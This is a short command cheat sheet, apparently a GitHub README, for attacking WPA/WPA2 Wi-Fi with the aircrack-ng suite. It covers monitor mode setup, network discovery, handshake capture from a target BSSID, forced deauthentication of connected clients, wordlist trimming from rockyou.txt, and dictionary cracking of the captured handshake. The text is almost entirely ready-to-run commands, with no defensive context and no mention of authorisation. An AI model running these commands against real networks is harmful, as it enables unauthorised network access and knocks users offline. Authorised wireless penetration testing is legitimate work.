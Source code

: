 
### WiFi Security
Check Wireless interface
```
$ iwconfig wlan0
$ airmon-ng check / check kill (check and kill interfering processes with monitor interface)
```
Set up monitor mode interface on wlan0
```
$ airmon-ng start wlan0
or
$ airmon-ng stop wlan0mon
```
Check packet injection and link quality
```
$ aireplay-ng -9 wlan0mon
```
Discover wireless networks
```
$ kismet -c mon0
or
$ airodump-ng mon0
$ airodump-ng -c 11 -a mon0 (+lock to channel)
```
WPA Capture
```Airodump-ng --bssid <TargetNetworkBSSID> -c <channel> -w handshake (outputfile)  wlan0mon (interface)``` 

Deauth client from BSSID network
```Aireplay-ng -0 0 -a <TargetNetworkBSSID> -c ClientMAC wlan0mon```

Dictionary Attack vs WPA handshake - WPA keys are between 8 and 63 characters
Optimize wordlist for WPA/WPA2 testing
```$ pw-inspector -i rockyou.txt -o optimized.txt -m 8 -M 63
then
$ aircrack-ng -w optimized.txt ../handshake/handshake.cap```
